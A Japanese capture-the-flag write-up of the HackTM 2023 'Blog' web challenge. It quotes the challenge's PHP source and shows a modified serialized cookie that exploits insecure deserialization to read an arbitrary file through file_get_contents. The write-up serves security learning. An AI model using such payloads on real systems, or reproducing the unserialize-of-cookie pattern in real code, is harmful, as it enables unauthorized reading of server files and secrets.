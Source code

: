 # HackTM CTF Quals 2023 

## [Web] Blog (50 pts, 161 solves)

シンプルなブログの Web サービスが題材の問題。

提供される `Dockerfile` より FLAG は `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt` に存在することがわかっているので、この内容を読み出す必要がある。

```dockerfile
FROM php:8.0-apache

COPY ./chal/html /var/www/html
COPY ./chal/db /sqlite3/db
COPY ./chal/flag.txt /02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt
RUN chmod -R 777 /sqlite3/
RUN chmod -R 777 /var/www/html/
```

`index.php` を開くと下記のような PHP のコードが目につく。Cookie `user` がリクエストに設定されていれば、その内容を Base64 デコードした上で `unserialize` している。

```php
<?php
include("util.php");
if (!isset($_COOKIE["user"])) {
    header("Location: /login.php");
    die();
} else {
    $user = unserialize(base64_decode($_COOKIE["user"]));
}
?>
...
```

ここで `login.php` より、Cookie `user` には `util.php` で定義された `User` クラスのインスタンスが `serialize` された上で Base64 形式で格納されていることがわかる。

```php
<?php
...
        $user = new User($username);
        setcookie("user", base64_encode(serialize($user)));
...
?>
```

下記より、`User` は `Profile` クラスを内部に保持するクラスである。ここで、`Profile` クラスの `$picture_path` が `file_get_contents` に渡されている。本来であればこのプロパティの値は変更できないが、Insecure Deserialization を活用すれば変更することができそうである。

```php
class User {
    public $profile;
    public $posts = array();

    public function __construct($username) {
        $this->profile = new Profile($username);
    }

    // get user profile
    public function get_profile() {
        // some dev apparently mixed up user and profile... 
        // so this check prevents any more errors
        if ($this->profile instanceof User) {
            return "@i_use_vscode please fix your code";
        } else {
            // quite unnecessary to assign to a variable imho
            $profile_string = "
            <div>{$this->profile}</div>
            ";
            return $profile_string;
        }
    }

    public function get_posts() {
        // check if we've already fetched posts before to save some overhead
        // (our poor sqlite db is dying)
        if (sizeof($this->posts) !== 0) {
            return "Please reload the page to fetch your posts from the database";
        }

        // get all user posts
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select title, content from posts where user = :user",
            array(":user" => $this->profile->username)
        ));

        // get posts from database
        $result = $conn();
        if ($result[0] !== false) {
            while ($row = $result[0]->fetchArray(1)) {
                $this->posts[] = new Post($row["title"], $row["content"]);
            }
        }

        // build the return string
        $out = "";
        foreach ($this->posts as $post) {
            $out .= $post;
        }
        return $out;
    }

    // who put this?? git blame moment (edit: i checked, it's @i_use_vscode as usual)
    public function __toString() {
        $profile = $this->profile;
        return $profile();
    }
}

class Profile {
    public $username;
    public $picture_path = "images/real_programmers.png";

    public function __construct($username) {
        $this->username = $username;
    }

    // hotfix for @i_use_vscode (see line 97)
    // when removed, please remove this as well
    public function __invoke() {
        if (gettype($this->picture_path) !== "string") {        
            return "<script>window.location = '/login.php'</script>";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
        $result = $conn();
        if ($result[0] === false || $result[0]->fetchArray() === false) {
            return "<script>window.location = '/login.php'</script>";
        } else {
            return "
            <div class='card'>
                <img class='card-img-top profile-pic' src='data:image/png;base64,{$picture}'> 
                <div class='card-body'>
                    <h3 class='card-title'>{$this->username}</h3>
                </div>
            </div>
            ";
        }
    }

    // this is the correct implementation :facepalm:
    public function __toString() {
        if (gettype($this->picture_path) !== "string") {        
            return "";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
        $result = $conn();
        if ($result[0] === false || $result[0]->fetchArray() === false) {
            return "<script>window.location = '/login.php'</script>";
        } else {
            return "
            <div class='card'>
                <img class='card-img-top profile-pic' src='data:image/png;base64,{$picture}'> 
                <div class='card-body'>
                    <h3 class='card-title'>{$this->username}</h3>
                </div>
            </div>
            ";
        }
    }
}
```

Cookie `user` を Base64 デコードすると下記の内容が得られる。

```text
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:7:"tsubasa";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

この `s:27:"images/real_programmers.png"` が前述の `$picture_path` の値に該当する箇所である。これを FLAG のパスに置き換えて Cookie にセットした上でアクセスすると、本来は画像が表示される箇所に Base64 エンコードされた FLAG が格納されていることが確認できる。

```text
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:7:"tsubasa";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```
